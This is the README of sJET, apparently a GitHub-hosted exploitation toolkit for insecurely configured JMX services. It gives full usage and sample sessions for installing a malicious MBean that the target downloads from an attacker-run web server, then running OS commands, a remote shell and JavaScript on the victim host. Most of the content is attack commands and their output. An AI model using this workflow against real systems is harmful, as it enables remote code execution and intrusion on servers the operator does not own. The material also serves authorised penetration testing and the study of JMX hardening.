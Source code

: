 # sJET by siberas

siberas JMX Exploitation Toolkit

sJET allows an easy exploitation of insecure configured JMX services. Additional background
information can be found [here](https://www.optiv.com/blog/exploiting-jmx-rmi) and [here](https://www.owasp.org/images/c/c1/JMX_-_Java_Management_Extensions_-_Hans-Martin_Muench.pdf).

## Prerequisites

* [Jython 2.7](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort password MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **password** - the password that is/was set during installation
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target.
  * *payload_url* - full URL to load the payload
  * *payload_port* - port to load the payload
* **password** -  change the password on a already deployed payload
  * *password* - the new password
* **command** -  runs the command *CMD* in the targetHost
  * *CMD* - the command to run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())
* **javascript** - runs a javascript file *FILENAME* in the targetHost
  * *FILENAME* - the javascript to be run


## Example


### Installing the payload MBean on a vulnerable JMX service

In the following example, the vulnerable JMX service runs on the 192.168.11.136:9991, the attacker has
the IP address 192.168.11.132. The JMX service will connect to the web service of the attacker to download
the payload jar file. sJET will start the necessary web service on port 8000.

After the successful installation of the MBean, the default password is changed to the password that was provided
at the command line ("super_secret").

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret install http://192.168.11.132:8000 8000
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanSiberas:name=payload,id=1
[+] Changing default password...
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

h0ng10@rocksteady:~/sjet$
```

### Running the command 'ls -la' in a Linux target:

After the payload was installed, we can use it to execute OS commands on the target.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret command "ls -la"
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ls -la
total 16
drwxr-xr-x  4 root    root    4096 Aug 22 16:12 .
drwxr-xr-x 66 root    root    4096 Aug 22 16:12 ..
lrwxrwxrwx  1 root    root      12 Mär 29 01:46 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Mär 29 01:46 lib
lrwxrwxrwx  1 root    root      17 Mär 29 01:46 logs -> ../../log/tomcat8
drwxrwxr-x  3 tomcat8 tomcat8 4096 Aug 22 16:12 webapps
lrwxrwxrwx  1 root    root      19 Mär 29 01:46 work -> ../../cache/tomcat8


[+] Done
h0ng10@rocksteady:~/sjet$
```
### Running ping in shell mode on a target

If you don't want to load Java for every command, you can use the "shell mode"
to get a limited command shell.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret shell
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  3
[+] Use command 'exit_shell' to exit the shell
>>> ping -c 3 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.075 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.044/0.055/0.075/0.014 ms


>>> exit_shell
[+] Done
h0ng10@rocksteady:~/sjet$
```

### Invoke a JavaScript payload on a target:

The example script "javaproperties.js" displays the Java properties of the vulnerable
service. It can be invoked as follows:

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret javascript scripts/javaproperties.js
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
java.vendor=Oracle Corporation
sun.java.launcher=SUN_STANDARD
catalina.base=/var/lib/tomcat8
sun.management.compiler=HotSpot 64-Bit Tiered Compilers
catalina.useNaming=true
os.name=Linux
...
java.vm.name=OpenJDK 64-Bit Server VM
file.encoding=UTF-8
java.specification.version=1.8


h0ng10@rocksteady:~/sjet$
```

### Change the password

Change the existing password ("super_secret") to "this-is-the-new-password":

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret password this-is-the-new-password
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  6
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

[+] Done
h0ng10@rocksteady:~/sjet$
```


## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://twitter.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
